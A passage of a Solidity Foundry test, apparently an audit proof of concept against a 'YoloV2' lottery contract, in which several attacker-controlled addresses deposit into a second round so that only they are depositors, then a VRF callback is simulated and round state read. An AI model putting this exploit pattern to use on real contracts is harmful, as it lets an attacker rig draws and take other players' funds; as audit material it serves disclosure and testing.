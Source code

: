 ```solidity
        uint40 currentEntryIndexAttacker3 = deposits[7].currentEntryIndex;
        console2.log("Alice entry index: ", currentEntryIndexAlice);
        console2.log("Attacker entry index: ", currentEntryIndexAttacker);
        console2.log("Bob entry index: ", currentEntryIndexBob);
        console2.log("Attacker1 entry index: ", currentEntryIndexAttacker1);
        console2.log("Tom entry index: ", currentEntryIndexTom);
        console2.log("Attacker2 entry index: ", currentEntryIndexAttacker2);
        console2.log("John entry index: ", currentEntryIndexJohn);
        console2.log("Attacker3 entry index: ", currentEntryIndexAttacker3);

        /// @notice the attacker guarantees that he wins the second round, as only addresses controled by him are round depositors
        vm.startPrank(attacker4);
        vm.deal(attacker4, valuePerEntryVariable);
        uint256[] memory amountsSecondRound = new uint256[](1);
        amountsSecondRound[0] = valuePerEntryVariable;
        yoloV2.depositETHIntoMultipleRounds{value: valuePerEntryVariable}(amountsSecondRound);
        vm.stopPrank();

        vm.startPrank(attacker5);
        vm.deal(attacker5, valuePerEntryVariable);
        yoloV2.depositETHIntoMultipleRounds{value: valuePerEntryVariable}(amountsSecondRound);
        vm.stopPrank();

        vm.startPrank(attacker6);
        vm.deal(attacker6, valuePerEntryVariable);
        yoloV2.depositETHIntoMultipleRounds{value: valuePerEntryVariable}(amountsSecondRound);
        vm.stopPrank();

        vm.startPrank(attacker7);
        vm.deal(attacker7, valuePerEntryVariable);
        yoloV2.depositETHIntoMultipleRounds{value: valuePerEntryVariable}(amountsSecondRound);
        vm.stopPrank();

        /// @notice simulate returning random word 

        vm.prank(VRF_COORDINATOR);
        VRFConsumerBaseV2(yoloV2).rawFulfillRandomWords(FULFILL_RANDOM_WORDS_REQUEST_ID_2, randomWords);

        uint40 maximumNumberOfParticipants2;
        uint16 roundProtocolFeeBp2;
        uint40 cutoffTime2;
        address winner2;
        IYoloV2.Deposit[] memory deposits2;
        IYoloV2.RoundStatus status2;
        uint40 drawnAt2;
        uint40 numberOfParticipants2;
        uint96 roundValuePerEntry2;
        uint256 protocolFeeOwed2;
        (
            status2,
            maximumNumberOfParticipants2, 
            roundProtocolFeeBp2, 
            cutoffTime2, 
            drawnAt2, 
            numberOfParticipants2, 
            winner2, 
            roundValuePerEntry2, 
            protocolFeeOwed2, 
            deposits2
        ) = yoloV2.getRound(2);

```